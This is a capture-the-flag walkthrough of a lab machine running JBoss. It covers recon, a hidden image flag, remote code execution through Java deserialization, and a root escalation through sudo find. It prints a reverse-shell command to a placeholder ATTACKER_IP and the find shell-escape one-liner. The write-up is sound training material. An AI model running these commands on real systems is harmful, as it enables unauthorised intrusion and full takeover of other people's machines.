 ```yaml
---
title: "Tony the Tiger"
tags:
  - Easy
  - Linux
  - nmap
  - JBoss
  - Java Serialization
  - Insecure Deserialization
  - find
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|    Easy    |  |  10.10.104.15 |  |

---

**The prompts for this room has been rewritten in this write-up for simplicity sake.**

---

### [ Reconnaissance ]

Let's start things off with a basic `nmap` scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.10.104.15
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:97:8c:b9:74:d0:f3:9e:fe:f3:a5:ea:f8:a9:b5:7a (DSA)
| ssh-dss
[REDACTED]
|   2048 33:a4:7b:91:38:58:50:30:89:2d:e4:57:bb:07:bb:2f (RSA)
| ssh-rsa 
[REDACTED]
|   256 21:01:8b:37:f5:1e:2b:c5:57:f1:b0:42:b7:32:ab:ea (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 f6:36:07:3c:3b:3d:71:30:c4:cd:2a:13:00:b5:25:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDUpCopvQzPXtEJ8L/lxYpJzOrcLLkU67fx71+Izsx6U
80/tcp   open  http        syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Hugo 0.66.0
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Tony&#39;s Blog
1090/tcp open  java-rmi    syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1091/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1098/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1099/tcp open  java-object syn-ack ttl 61 Java Object Serialization
| fingerprint-strings: 
[REDACTED]
4446/tcp open  java-object syn-ack ttl 61 Java Object Serialization
5500/tcp open  hotline?    syn-ack ttl 61
| fingerprint-strings: 
[REDACTED]
8009/tcp open  ajp13       syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss AS
8083/tcp open  http        syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
```

There are quite a number of ports open, but the ones I'm especially interested in are port **22 (SSH)**, port **80 (HTTP)** and port **8080 (HTTP)**.

The HTTP web server on port **80** contains a blog page:

![screenshot1](../assets/images/tony_the_tiger/screenshot1.png)

The HTTP web server on port **8080** contains a [JBoss](https://www.redhat.com/en/technologies/jboss-middleware/application-platform) application server:

![screenshot6](../assets/images/tony_the_tiger/screenshot6.png)

---

*JBoss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.* 

---

Since the room is all about **Java serialization**, this JBoss server will probably be quite important later on.

---

### [ Find Tony's Flag! ]

Let's focus on Tony's blog first.

The first thing I did was to look for any low-hanging fruit, such as looking at the source code of the page for comments and checking the robots.txt file. There was nothing of interest there.

Next, if we look at the post titled '**My First Post**', we find something interesting:

![screenshot2](../assets/images/tony_the_tiger/screenshot2.png)

Looks like there might be embedded data within the images on the site. Looking around, I managed to find 2 images. I downloaded them onto my machine and tried to see if I could extract any data from them.

In the end, the image that had embedded data was this:

![screenshot3](../assets/images/tony_the_tiger/screenshot3.png)

All I had to do was run `strings` on it and we get Tony's flag within the output:

![screenshot4](../assets/images/tony_the_tiger/screenshot4.png)

---

### [ Exploit! ]

The room tells us to download a zip file which contains the following resources:

![screenshot5](../assets/images/tony_the_tiger/screenshot5.png)

**exploit.py** uses the **ysoserial.jar** file in the file to launch a remote code execution attack. It abuses a Java deserialization vulnerability that exists for certain versions of JBoss.

---

**Explanation of vulnerability:**

*It was found that the Apache commons-collections library permitted code execution when deserializing objects involving a specially constructed chain of classes. A remote attacker could use this flaw to execute arbitrary code with the permissions of the application using the commons-collections library.*

Source: https://www.rapid7.com/db/vulnerabilities/http-jboss-cve-2015-7501/

---

We can use this exploit to launch a reverse shell on the target machine:

```
python2 exploit.py 10.10.104.15:8080 'nc -e /bin/sh ATTACKER_IP 4444'
```

With a netcat listener up and running, I ran the command above:

![screenshot7](../assets/images/tony_the_tiger/screenshot7.png)

And we're in!

---

### [ Find User JBoss' flag! ]

Looking around the machine, I found out that there are 3 users:

![screenshot8](../assets/images/tony_the_tiger/screenshot8.png)

Visiting **jboss'** home directory, there is a hidden text file called **.jboss.txt**:

![screenshot11](../assets/images/tony_the_tiger/screenshot11.png)

This file contains **JBoss' flag**:

![screenshot12](../assets/images/tony_the_tiger/screenshot12.png)

---

### [ Escalation! ]

There is also another text file called **note**:

![screenshot9](../assets/images/tony_the_tiger/screenshot9.png)

Nice, we have jboss' password! 

> likeaboss

Let's log into his account via SSH:

![screenshot10](../assets/images/tony_the_tiger/screenshot10.png)

If we look at jboss' **sudo privileges**:

![screenshot13](../assets/images/tony_the_tiger/screenshot13.png)

We see that jboss can run the `find` command as root! [GTFOBins](https://gtfobins.github.io/gtfobins/find/) provides the following method to exploit this:

![screenshot14](../assets/images/tony_the_tiger/screenshot14.png)

All we have to do is run the following command:

```
sudo find . -exec /bin/sh \; -quit
```

![screenshot15](../assets/images/tony_the_tiger/screenshot15.png)

And just like that, we've opened a root shell.

The **root flag** can then be found in /root:

![screenshot16](../assets/images/tony_the_tiger/screenshot16.png)

It's base64-encoded, so let's decode it:

![screenshot17](../assets/images/tony_the_tiger/screenshot17.png)

We get what seems to be a MD5 hash. We can try cracking it using my go-to online [hash cracker](https://hashes.com/en/decrypt/hash):

![screenshot18](../assets/images/tony_the_tiger/screenshot18.png)

And we got the root flag!
